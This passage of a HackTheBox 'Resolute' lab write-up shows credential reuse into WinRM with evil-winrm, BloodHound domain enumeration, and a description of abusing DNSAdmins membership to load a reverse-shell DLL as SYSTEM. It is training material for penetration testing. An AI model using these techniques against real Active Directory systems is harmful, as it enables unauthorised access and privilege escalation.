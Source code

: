 This is interesting to note, because none of the other usernames had successes returned by brutespray. This means that the combination `melanie:Welcome123!` successfully authenticated into SMB, however, they were unable to access the ADMIN$ share. Now that we know a valid credential combination, we can try to authenticate into WinRM again.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> 
```

Sweet. And the user flag is in our Desktop directory too. That wasn't too bad. From here, because this is an Active Directory computer we are working with, I would like to run Bloodhound to find Privilege Escalation and Lateral Movement steps. The specifics of how to set up and run Bloodhound can be found on my blog, so I'll keep it short here. We're just going to gather some data to pass into Bloodhound.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Resolute]
└─# bloodhound-python -u 'melanie' -p 'Welcome123!' -ns 10.10.10.169 -d MEGABANK.LOCAL -c all                                                                                                             
INFO: Found AD domain: megabank.local
INFO: Connecting to LDAP server: Resolute.megabank.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: Resolute.megabank.local
INFO: Found 27 users
INFO: Found 53 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MS02.megabank.local
INFO: Querying computer: Resolute.megabank.local
INFO: Done in 00M 16S
```

This will load up a lot of .jsons that we will upload to Bloodhound. After uploading them, I like to start with a prebuilt query of "Shortest Paths to High Value Targets". We can see that our initial assumption was correct; RESOLUTE is a domain controller. Looking further, there is a second user, "ryan". Viewing the "Transitive Object Control" under the "Outbound Control Rights" of this node shows the following graph:

<img src="https://github.com/susMdT/Nigerald/blob/master/assets/images/Resolute_Bloodhound.PNG?raw=true" class="postImagecontent" unselectable="on" />

Ryan is actually apart of the Contractors group which is also apart of the DNSAdmins group. There are something interesting results that come from googling things related to the DNSAdmin and Privilege Escalation. Essentially, if the DNSAdmin has the capability to turn on and off the DNS service (which they don't be default, but it seems to be a common configuration), then they can inject a malicious dll into the DNS service that will be run once the service is restart. The DNS service runs as SYSTEM, so if we can inject a dll that launches a reverse shell and restart the DNS service, we can get SYSTEM. This seems like a plausible attack vector given our current information, but we need to get to ryan first to test this. Back onto melanie, some basic enumeration reveals some PowerShell command history left in the root directory.
